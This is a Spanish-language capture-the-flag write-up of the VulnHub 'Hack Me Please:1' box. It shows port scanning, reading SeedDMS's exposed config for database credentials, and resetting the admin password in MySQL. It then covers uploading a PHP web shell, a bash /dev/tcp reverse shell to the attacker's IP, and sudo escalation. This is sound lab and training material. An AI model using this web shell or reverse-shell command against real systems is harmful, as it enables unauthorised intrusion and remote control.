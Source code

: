 ```yaml
---
layout: single
title: Hack Me Please:1 - VulnHub
excerpt: " Difficulty: Easy

Description: An easy box totally made for OSCP. No bruteforce is required.

Aim: To get root shell "
date: 2022-12-11
classes: wide
header:
  teaser: /blog/assets/images/vh-writeup-hackmeplease/hackmeplease.png
  teaser_home_page: true
  icon: /blog/assets/images/vulnhub.webp
categories:
  - vulnhub
tags:  
  - mysql
  - seeddms
  - php
  - sudoer
---
```


Difficulty: Easy

Description: An easy box totally made for OSCP. No bruteforce is required.

Aim: To get root shell

# Summary
- IP: 192.168.0.115
- Ports: 80,3306,33060
- OS: Linux (Ubuntu Focal)
- Services & Applications:
	-  80-> Apache httpd 2.4.41
	-  3306 -> MySQL 8.0.25-0ubuntu0.20.04.1
	-  33060 -> mysqlx?

# Recon

- Escaneo básico de puertos:

```bash
$sudo nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 10.10.129.26 -oG allPorts
```


- Escaneo profundo de puertos encontrados:

```bash
$sudo nmap -p21,3306,33060 -sCV 10.10.129.26 -oN targeted
```

- Escaneo de directorios con gobuster:

```bash
$gobuster dir -u 192.168.1.40 -w /home/dante/SecLists/Discovery/Web-Content/common.txt -t 200
```

- No encontramos ningún directorio interesante, así que procedemos a examinar la página web; dentro de la página web analizamos el código fuente, encontramos un recurso "main.js", lo analizamos para encontrar alguna posible fuga en el código; en una linea encontramos lo siguiente:

```js
//make sure this js file is same as installed app on our server endpoint: /seeddms51x/seeddms-5.1.22/
```

- Accedemos al directorio mencionado en el anterior comentario y encontramos una página "SeedDMS" con un login, intentamos acceder con credenciales por defecto sin resultado.

- Hacemos una búsqueda en google para verificar si se trata de un programa opensource:

```
SeedDMS github
```

- Enumeramos los posibles directorios que contiene dicho programa, específicamente existe un directorio "/conf" en el cual hay un archivo ".htacces" el cual advierte la sanitización del archivo "/conf/settings.xml".

- Intentamos abrir este archivo "settings.xml" en caso de que no esté sanitizado y efectivamente tenemos acceso a este archivo, enumeramos información relevante.

- Encontramos credenciales de base de datos: user="seeddms" pass="seeddms", como el puerto 3306 está abierto, intentamos acceder con esta información:

```bash
$mysql -h 192.168.1.40 -useeddms -pseeddms
```

- Buscamos información sensible:

```bash
show databases;
use seeddms;
show tables
select * from users;
```

- Encontramos la credencial para el usuario "saket", intentamos logearnos en la página principal pero no funciona, guardamos esta información y seguimos buscando posibles contraseñas:

```bash
select * from tblUsers
```

- Encontramos al usuario "admin" con su respectiva contraseña hasheada; updateamos la contraseña a una que nosotros conozcamos, al tener 32 caracteres, podría tratarse de un hash MD5, así que creamos una:

```bash
echo -n "hola" l md5sum
```

- Updateamos la celda en la base de datos:

```bash
update tblUsers set pwd='4d186321c1a7f0f354b297e8914ab240' where login='admin';
```

- Ahora accedemos en la página principal de "SeedDMS" como el usuario "admin" y la contraseña que creamos.

- Buscamos vulnerabilidades para "SeedDMS" y encontramos un RCE, analizamos el exploit:

```
Step 1: Login to the application and under any folder add a document.
Step 2: Choose the document as a simple php backdoor file or any backdoor/webshell could be used.
Step 3: Now after uploading the file check the document id corresponding to the document.
Step 4: Now go to example.com/data/1048576/"document_id"/1.php?cmd=cat+/etc/passwd to get the command response in browser.
```


- Creamos un archivo php con una reverse shell y la subimos:

```bash
nano shell.php
```


```bash
<?php
echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

- Ahora vemos la id del archivo que acabamos de subir y accedemos mediante el directorio que nos indica el exploit, confirmando el RCE:

```
http://192.168.1.40/seeddms51x/data/1048576/7/1.php?cmd=whoami
```

- Creamos una reverse shell básica:

```bash
bash -c "bash -i >%26 /dev/tcp/192.168.1.31/443 0>%261"
```

- Hacemos tratamiento de TTY y habremos accedido como el usuario "www-data".


# ESCALANDO PRIVILEGIOS:


- Recordamos la credencial del usuario "soket" que habíamos encontrado anteriormente, la usamos para intentar pivotar de usuario y sí que funciona.

```bash
su saket
```

- Vemos permisos de sudoers ( sudo -l ) y encontramos que el usuario saket tiene permitido ejecutar como root cualquier binario:

```bash
User saket may run the following commands on ubuntu:
    (ALL : ALL) ALL
```

- Accedemos como superusuario con sudo y seremos root:

```bash
sudo su
```
